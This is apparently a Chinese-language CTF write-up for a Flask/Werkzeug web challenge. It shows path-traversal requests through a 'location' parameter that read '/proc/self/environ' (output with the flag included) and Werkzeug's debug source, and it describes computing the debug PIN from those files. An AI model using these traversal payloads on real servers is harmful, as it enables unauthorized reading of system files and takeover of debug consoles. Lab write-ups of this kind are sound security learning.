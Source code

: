 #Web #python #procfs #werkzeug #flask

~~这题被用procfs非预期了，好不甘心qaq~~

---

```
/?location=index.html
```

![[Pasted image 20230514202231.png|200]]

任意文件读取就对了

非预期解法
===

```
/?location=../../../../../../proc/self/environ
```

> PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
> HOSTNAME=9264804d37f5
> FLAG=Spirit{94f63678-998a-4feb-ab66-50ab20fb501b}
> LANG=C.UTF-8
> GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D
> PYTHON_VERSION=3.11.3
> PYTHON_PIP_VERSION=22.3.1
> PYTHON_SETUPTOOLS_VERSION=65.5.1
> PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/0d8570dc44796f4369b652222cf176b3db6ac70e/public/get-pip.py
> PYTHON_GET_PIP_SHA256=96461deced5c2a487ddc65207ec5a9cffeca0d34e7af7ea1afc470ff0d746207
> HOME=/root
> WERKZEUG_SERVER_FD=3
> WERKZEUG_RUN_MAIN=true

虽然很气但万物皆文件真的很香～

预期解法
===

可以看下[这篇blog](https://www.kingkk.com/2018/08/Flask-debug-pin%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/)～

总之就是非常离谱，只要能够任意文件读取，PIN是可以算！出！来！的！

当然生产环境开debug以及任意文件读取本身就是个大灾难了，就像是别人站在你电脑前了，chrome保存的密码啥的不泄露才怪

PIN的算法可能会有所不同，但是既然可以读文件，就可以看到靶机里面这部分的源码

```
/?location=../../../../../../usr/local/lib/python3.11/site-packages/werkzeug/debug/__init__.py
```

照着源码对号入座就好啦